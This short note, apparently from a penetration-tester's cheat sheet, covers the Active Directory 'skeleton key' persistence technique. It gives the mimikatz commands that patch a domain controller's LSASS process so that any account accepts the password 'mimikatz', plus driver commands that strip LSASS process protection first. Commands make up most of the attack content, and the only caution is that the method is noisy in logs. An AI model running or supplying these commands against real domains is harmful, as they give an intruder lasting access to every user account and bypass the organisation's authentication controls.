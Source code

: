 #mimikatz 
- Persistence technique where it is possible to path the DC's `lssass` process so that it allows access as any user with a single password.
- Discovered by Dell Secureworks.
- Using mimikatz to inject skeleton key
```powershell
privilege::debug # 200 OK
misc::skeleton
# Any resource can be accessed by it's username and password as "mimikatz"
```
- In case the lssass.exe process in running as a protected process, we need to use the mimidriv.sys (mimikatz driver) to use skeleton key:
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
# NOTE: The above process is noisy in logs
```